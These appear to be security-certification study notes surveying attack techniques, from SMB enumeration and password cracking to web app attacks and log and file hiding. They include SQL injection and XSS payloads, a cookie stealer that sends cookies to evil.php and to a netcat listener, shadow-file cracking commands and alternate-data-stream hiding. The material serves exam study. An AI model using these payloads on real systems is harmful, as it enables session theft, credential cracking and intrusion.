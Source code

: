 # Common Attacks

## Exam Outcome

Demonstrate a broad knowledge of computer and network attacks

## Common Attacks

## 1. Recon

## 2. Scanning

### SMB Sessions

View SMB sessions (outbound)

```
net use
```

View SMB sessions (inbound):

```
net session
```

Establishing an SMB session:

```
net use \\%COMPUTERNAME% /u:[account]
```

Delete an SMB session:

```
net use \\%COMPUTERNAME% /del
```

Using the enum tool to pull user, password policy, and grup info:

```
enum -u [user] -p [password] -U [target IP]
enum -u [user] -p [password] -P [target IP]
enum -u [user] -p [password] -G [target IP]
```

### War Dialing

Dialing a sequence of telephone numbers attempting to locate a modem. Popular tool for doing so is HD Moore's WarVOX.

### War Driving

The act of performing wireless LAN discovery.

## 2.  Exploitation

Exploitation (per 504) is broken down into 3 sections:

1. Gaining Access
2. Web App Attacks
3. Denial of Service

## Exploitation - Gaining Access

### IP Address Spoofing

### Passive and Active Sniffing

### Session Hijacking with Ettercap

Session hijacking synthesizes sniffing and spoofing.

### DNS Cache Poisoning

### Buffer Overflows

Allows an attacker to execute arbitrary commands on your machine.

### Format String Attacks

Related to manipulating programs that misuse printf and related commands to read arbitrary information from memory.

### Password Cracking

#### Password Cracking Methodologies

1. Dictionary attack
2. Brute force attack
3. Hybrid

John the Ripper (on Linux):

```
cp /etc/passwd /tmp/passwd_copy
cp /etc/shadow /tmp/shadow_copy

unshadow /tmp/passwd_copy /tmp/shadow_copy > /tmp/combined

/run/john /tmp/combined
```

John the Ripper (on Windows)

```
john-mmx.exe c:\path\to\sam.txt
```

### Pass-the-Hash Attacks

Instead of, or in addition to, stealing password hashes and cracking them, you can also use the pilfered hashes to directly attempt authentication from one box to another.

### Worms & Bots

Worms are designed to be self-propagating and are intended to quickly spread and infect other systems very quickly.
Worms come in different flavors:  multi-exploit, multi-platform, zero-day, flash technique induced, and polymorphic.

### Virtual Machine Attacks

## Exploitation - Web App Attacks

### Account Harvesting

The ability to discern valid userIDs based on how the application responds when the user tried to authenticate. After discerning the error messages, behaviors, and output, automation can be leveraged to quickly identify a list of valid userIDs.

### Command Injection

The manipulation of web application behavior that takes user input and executes it in the back end; bad guys can manipulate this to achieve code execution in certain instances.

### SQL Injection

SQL Injection is the most common web-based attack. It is used when the hacker places commands which can trigger valid SQL queries within a field not typically associated with SQL commands. Fields like "Username" and "Password". But these types of commands cab be inserted into any DB style entry field.

1. List Field Values #1:
An attacker may try the following to see if they can get a list of values from a particular field, user, pass, version, email, etc.

```
'0 OR 1=1'
```

Or:

```
' or '1'='1
```

Equivalent to the SQL Command:
'SELECT * FROM Users WHERE UserId = 0 OR 1=1;''

2. List Field Values #2:
An attacker may try the following to get a list of values from a particular field, user, pass, version, email, etc.
```
" or ""="
```

Equivalent to the SQL Command:
SELECT * FROM Users WHERE Name ="" or ""="" AND Pass ="" or ""=""

3. Elevate privileges
```
"john'; INSERT INTO group_membership (user_id, group) VALUES (SELECT user_id FROM users WHERE username='john', 'Administrator'); --'"
```

Equivalent to the SQL Command:
SELECT user_id, username, password_hash FROM users WHERE username = 'john'; 
INSERT INTO group_membership (user_id, group) VALUES (SELECT user_id FROM users WHERE username='john', 'Administrator'); --'

4. Getting Hashesh

```
admin' union select password from users where username='admin';--
```

### XSS Attacks

1. Black Box Testing
Enter the following in the URL:

```
hxxp://www.site.com/index.php?name=<script>alert(123)</script>
```

2. Search Test
If the site has a search field without proper sanitization:

```
hxxp://www.site.com/search?source=“><script>alert(123)</script>
```

3. One Error Test
If the site has a mouseover or onerror capability

```
hxxp://www.site.com/index.php?name=<b onmouseover=alert('Wufff!')>click me!</b>
```
```
hxxp://www.site.com/index.php?name=<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
```

5. Assessing about:cache Entries (Firefox)

```
Type "about:cache" in the address bar
Click on 'List Cache Entries'
Analyze recent capture entries of attempted XSS entry points
```

4. Cookie Stealer

```
hxxp://www.site.com/index.php?name=<SCRIPT type="text/javascript"> var adr = '../evil.php?cakemonster=' + escape(document.cookie);</SCRIPT>
```

Another example using netcat (nc):

Start a nc listener:

```
nc -l -v -p 2222
```

Enter the following in the <script> tag:

```
<script>document.location='http://127.0.0.1:2222/grab.cgi?'+document.cookie;</script>
```

The cookie will be relayed to the netcat (nc) listener.

Using the stolen cookie to gain additional access with Nikto:

```
perl ./nikto.pl -Single
[Hostname or IP]: 127.0.0.1
[URL(/)]: /admind.php
[Data]: Cookie: user=1337
```

5. Hide from JavaScript
```
hxxp://www.site.com/index.php?name=<IMG SRC=j&#X41vascript:alert(123)>
```

### Attacking State Maintenance with Web App Manipulation Proxies

Great tools: ZAP, Burp, w3af, and Fiddler.

## Exploitation - Denial of Service

### Local DOS

### DNS Amplification Attacks

### DoS Suites

### Distributed DoS (DDoS)

## 4. Keeping Access

### App-level Trojan Horse Backdoor Suites

Tools that allow the attacker complete control over a victim machine:  Poison Ivy, VNC (legit, but often abused), Dameware, Sub7 and others.

### Wrappers and Packers

Wrappers are used to bundle two applications together (one legit and the other typically evil).

Packers are primarily used to thwart reverse engineers - by using techniques like compression so that the executable isn't easily reversed and so that strings aren't as readily available.

### Memory Analysis

### User-Mode Rootkits

#### Linux User-Mode Rootkits

Fontanini rootkit.

#### Windows User-Mode Rootkits

### Kernel-Mode Rootkits

#### Rooty
#### Avatar Rootkit
#### Avatar and Alureon

## 5. Covering Tracks

### Covering Tracks in Linux & Unix

#### Hiding Files

```
ls -a
echo hideme > ".. "
ls -a
```

#### Log Editing

Some interesting log sources in Linux:  /var/log/secure; var/log/messages; var/log/httpd/error_log; /var/log/httpd/access_log

#### Accounting Entry Editing

utmp: File contains info about currently logged in users (/var/log/utmp)
wtmp: File contains data about past user logins (/var/log/wtmp)
btmp: File contains bad login entries for failed login attempts (/var/log/btmp)
lastlog: File shows login name, port, and last login for each user (/var/log/lastlog)

### Covering Tracks in Windows

#### Hiding Files

NTFS Alternate Data Streams (ADS)

```
type hackerstuff.exe > notepad.exe:steam1.exe
more < c:\file:stream1
```

Using LADS

```
c:\tools\lads\lads\ /S c:\tmp
```

#### Log Editing

#### Covering Tracks on the Network

#### Reverse HTTP Shells

#### IMCP Tunnels

#### Covert_TCP

```
covert_tcp -dest 127.0.0.1 -source 127.0.0.1 -source_port 8888 -dest_port 9999 -server -file /tmp/receive/receive.txt
```

### Steganography

Sample stego tools:

1. Jsteg
2. MP3Stego
3. S-Mail
4. Invisible Secrets
5. Stash
6. Hydan




